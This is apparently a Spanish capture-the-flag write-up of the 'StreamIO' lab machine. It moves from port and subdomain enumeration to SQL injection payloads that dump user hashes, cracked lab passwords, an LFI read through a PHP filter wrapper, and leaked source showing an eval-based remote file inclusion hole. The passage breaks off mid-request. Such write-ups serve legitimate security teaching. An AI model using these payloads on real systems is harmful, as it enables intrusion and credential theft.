StreamIO es una máquina mediana que cubre la enumeración de subdominios que conduce a una `inyección SQL` para recuperar las credenciales de usuario almacenadas, que se descifran para obtener acceso a un panel de administración. El panel de administración es vulnerable a `LFI`, lo que nos permite recuperar el código fuente de las páginas de administración y nos lleva a identificar una vulnerabilidad de inclusión remota de archivos, cuyo abuso nos permite acceder al sistema. Después del shell inicial, aprovechamos la utilidad de línea de comandos `SQLCMD` para enumerar bases de datos y obtener más credenciales utilizadas en el movimiento lateral y encontrar bases de datos guardadas del `navegador`, que se decodifican para exponer nuevas credenciales. Usando las nuevas credenciales dentro de `BloodHound` descubrimos que el usuario tiene la capacidad de agregarse a un grupo específico en el que puede leer secretos LDAP. Sin acceso directo a la cuenta, utilizamos PowerShell para abusar de esta función y agregarnos al grupo "Core Staff", luego accedemos a LDAP para revelar la contraseña LAPS del administrador.



# Enumeración

Iniciamos con la enumeración de los puertos abiertos de la maquina victima.

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.11.158 -oG allportsScan
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
443/tcp   open  https            syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49673/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49742/tcp open  unknown          syn-ack

```

Luego de obtener los puertos, enumeraremos los servicio y las versiones de los puertos abiertos que encontramos.

```python
❯ nmap -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49742 -sC -sV -Pn -vvv 10.10.11.158 -oN servicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-23 13:47:15Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Issuer: commonName=streamIO/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-02-22T07:03:28
| Not valid after:  2022-03-24T07:03:28
| MD5:   b99a:2c8d:a0b8:b10a:eefa:be20:4abd:ecaf
| SHA-1: 6c6a:3f5c:7536:61d5:2da6:0e66:75c0:56ce:56e4:656d
| -----BEGIN CERTIFICATE-----
| MIIDYjCCAkqgAwIBAgIUbdDRZxR55nbfMxJzBHWVXcH83kQwDQYJKoZIhvcNAQEL
| BQAwIDELMAkGA1UEBhMCRVUxETAPBgNVBAMMCHN0cmVhbUlPMB4XDTIyMDIyMjA3
| MDMyOFoXDTIyMDMyNDA3MDMyOFowIDELMAkGA1UEBhMCRVUxETAPBgNVBAMMCHN0
| cmVhbUlPMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2QSO8noWDU+A
| MYuhSMrB2mA+V7W2gwMdTHxYK0ausnBHdfQ4yGgAs7SdyYKXf8fA502x4LvYwgmd
| 67QtQdYtsTSv63SlnEW3zjJyu/dRW0cwMfBCqyiLgAScrxb/6HOhpnOAzk0DdBWE
| 2vobsSSAh+cDHVSuSbEBLqJ0GEL4hcggHhQq6HLRmmrb0wGjL1WIwjQ8cCWcFzzw
| 5Xe3gEe+aHK245qZKrZtHuXelFe72/nbF8VFiukkaBMgoh6VfpM66nMzy+KeLfhP
| FkxBt6osGUHwSnocJknc7t+ySRVTACAMPjbbPGEl4hvNEcZpepep6jD6qgi4k7bL
| 82Nu2AeSIQIDAQABo4GTMIGQMB0GA1UdDgQWBBRf0ALWCgvVfRgijR2I0KY0uRjY
| djAfBgNVHSMEGDAWgBRf0ALWCgvVfRgijR2I0KY0uRjYdjAPBgNVHRMBAf8EBTAD
| AQH/MCsGA1UdEQQkMCKCDHN0cmVhbUlPLmh0YoISd2F0Y2guc3RyZWFtSU8uaHRi
| MBAGA1UdIAQJMAcwBQYDKgMEMA0GCSqGSIb3DQEBCwUAA4IBAQCCAFvDk/XXswL4
| cP6nH8MEkdEU7yvMOIPp+6kpgujJsb/Pj66v37w4f3us53dcoixgunFfRO/qAjtY
| PNWjebXttLHER+fet53Mu/U8bVQO5QD6ErSYUrzW/l3PNUFHIewpNg09gmkY4gXt
| oZzGN7kvjuKHm+lG0MunVzcJzJ3WcLHQUcwEWAdSGeAyKTfGNy882YTUiAC3p7HT
| 61PwCI+lO/OU52VlgnItRHH+yexBTLRB+Oa2UhB7GnntQOR1S5g497Cs3yAciST2
| JaKhcCnBY1cWqUSAm56QK3mz55BNPcOUHLhrFLjIaWRVx8Ro8QOCWcxkTfVcKcR+
| DSJTOJH8
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-03-23T13:48:48+00:00; +7h00m00s from scanner time.
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49742/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18376/tcp): CLEAN (Timeout)
|   Check 2 (port 40049/tcp): CLEAN (Timeout)
|   Check 3 (port 25119/udp): CLEAN (Timeout)
|   Check 4 (port 26128/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-23T13:48:12
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s

```

Luego de enumerar agregaremos el dominios que es `streamio.htb` al `/etc/hosts` y enumeraremos los directorios del sitio web del puerto `443`

```python
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 395 -u https://streamio.htb/FUZZ -e .php,.html,.db

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://streamio.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .php .html .db 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 395
________________________________________________

images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 219ms]
contact.php             [Status: 200, Size: 6434, Words: 2010, Lines: 206, Duration: 106ms]
about.php               [Status: 200, Size: 7825, Words: 2228, Lines: 231, Duration: 107ms]
login.php               [Status: 200, Size: 4145, Words: 796, Lines: 111, Duration: 179ms]
register.php            [Status: 200, Size: 4500, Words: 905, Lines: 121, Duration: 105ms]
Images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 101ms]
admin                   [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 108ms]
css                     [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 106ms]
Contact.php             [Status: 200, Size: 6434, Words: 2010, Lines: 206, Duration: 108ms]
About.php               [Status: 200, Size: 7825, Words: 2228, Lines: 231, Duration: 111ms]
Login.php               [Status: 200, Size: 4145, Words: 796, Lines: 111, Duration: 102ms]
js                      [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 125ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 103ms]

```



Teniendo la información actual, no se puede hacer mucho por lo que seguiremos enumerando. Ahora enumeraremos los subdominios del sitio web.

```python
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.streamio.htb" -fl 32 -u https://10.10.11.158

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.11.158
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.streamio.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 32
________________________________________________

watch                   [Status: 200, Size: 2829, Words: 202, Lines: 79, Duration: 515ms]
:: Progress: [4989/4989] :: Job [1/1] :: 81 req/sec :: Duration: [0:00:57] :: Errors: 0 ::
```

Encontramos que tenemos un subdominio que es `watch`

## watch.streamio.htb



Ahora seguiremos enumerando los directorios del subdominio encontrado.

```python
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 79 -u https://watch.streamio.htb/FUZZ -e .php,.html,.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://watch.streamio.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 79
________________________________________________

search.php              [Status: 200, Size: 253887, Words: 12366, Lines: 7194, Duration: 1277ms]
static                  [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 114ms]
Search.php              [Status: 200, Size: 253887, Words: 12366, Lines: 7194, Duration: 113ms]
blocked.php             [Status: 200, Size: 677, Words: 28, Lines: 20, Duration: 121ms]
SEARCH.php              [Status: 200, Size: 253887, Words: 12366, Lines: 7194, Duration: 114ms]
Static                  [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 151ms]

```

Tenemos algo nuevo que es `search.php` en el que podemos hacer una búsqueda de las películas 



# Explotación
## SQL Injection

Luego de intentamos probar una inyeccion sql y vemos que funciono.



Por lo que teniendo en cuenta de que estamos frente a un sql server podemos encontrar mas información en el post de `hacktricks`:
- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)

Enumeramos las columnas te tiene la `query`

```python
q=test'union+select+1,2,3,4,5,6--+-
```

- Enumeración de las bases de datos existentes:

```python
q=abcd'union+select+1,name,3,4,5,6+from+master.dbo.sysdatabases--+-
master
model
msdb
streamio
streamio_backup
tempdb
```

- Enumeración de las tablas :

```python

q=abcd'union+select+1,table_name,3,4,5,6+from+streamio.information_schema.tables--+-
movies
users
```

- Enumeración de las columnas:

```python
q=abcd'union+select+1,column_name,3,4,5,6+from+streamio.information_schema.columns+where+table_name='users'--+-
id
is_staff
password
username
```

Luego de enumerar las columnas de la tabla `users` lo que haremos será obtener los datos que están almacenadas en ella.

```python
q=abcd'union+select+1,concat(username,':',password),3,4,5,6+from+users;--+-
```
### Cracking con hashcat

Luego de obtener las credenciales almacenadas en la base de datos lo que haremos será crackerlas con `hashcat` 

```python
>.\hashcat.exe -m 0 --user  -o D:\Herramientas\Programas\credentials.txt D:\Herramientas\Programas\rockyou.txt
```



### Cracking con john

También podemos crackearlas con la herramienta de `John The Riper`.

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt credentials.txt --format=Raw-MD5
```



Teniendo las credenciales en texto plano, las usaremos para autenticarnos contra el panel de administración que anteriormente habíamos encontrado

```python
❯ cat credentials_crack.txt

Clara : ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Bruno : 2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
Barry : 54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Juliette : 6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Lauren : 08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Victoria : b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
Michelle : b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Sabrina : f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane : 3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Lenord : ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
admin : 665a50ac9eaa781e4f7f04199db97a11:paddpadd
yoshihide : b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..   
```

## Admin panel

ingresando las credenciales de `yoshihide` logramos autenticarnos contra el sitio web, por lo que tenemos el siguiente panel.



En la parte del sitio web, vemos que tenemos un parámetro del cual podremos quizás explotarlo



Haciendo click en cada uno de los apartados como `User management`, `Staff mannagement`, `movie management` y `leave a messege for admin` en donde encontraremos algunos parámetros como `movie=, staff=, user=`.

Para encontrar o descubrir otros parámetros enumeraremos con `ffuf`  

```python
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt  -H 'Cookie: PHPSESSID=226aam4mjqm5oqod4qbtfn23je' -fw 85 -u https://streamio.htb/admin/?FUZZ=

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://streamio.htb/admin/?FUZZ=
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Header           : Cookie: PHPSESSID=226aam4mjqm5oqod4qbtfn23je
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 85
________________________________________________

debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 108ms]
movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 117ms]
staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 111ms]
user                    [Status: 200, Size: 2073, Words: 146, Lines: 63, Duration: 105ms]
:: Progress: [6453/6453] :: Job [1/1] :: 325 req/sec :: Duration: [0:00:20] :: Errors: 0 ::

```

Encontramos otro parámetro que es `debug` el cual es para los desarrolladores



### LFI - Local File Inclusion

Probando algunas vulnerabilidades con el parametro `debug=` encontramos que es vulnerable a un `LFI` y para leer los archivos `.php` usaremos wrappers de base64.



Para poder leer mas de los `wrappers` podemos leer el siguiente post:
- [https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php](https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php)

Luego de obtener el contenido tenemos lo siguiente:

- index.php

```php
�yr<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
        header('HTTP/1.1 403 Forbidden');
        die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

?>

```

- master.php

```php
.
.
.
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input ame="include" hidden>

</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" )
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```

Analizando el archivo de `master.php` podemos ver que podemos incluir un archivo `.php` ajeno al servidor, por lo que iniciaremos un servidor en Python y crearemos un archivo `.php` y así verificar si se realiza una petición a nuestro servidor.

```python
❯ python3 -m http.server 80
```

Tenemos la petición que se enviara por `Burp suite `
```python
POST /admin/?debug=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=226aam4mjqm5oqod4qbtfn23je
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
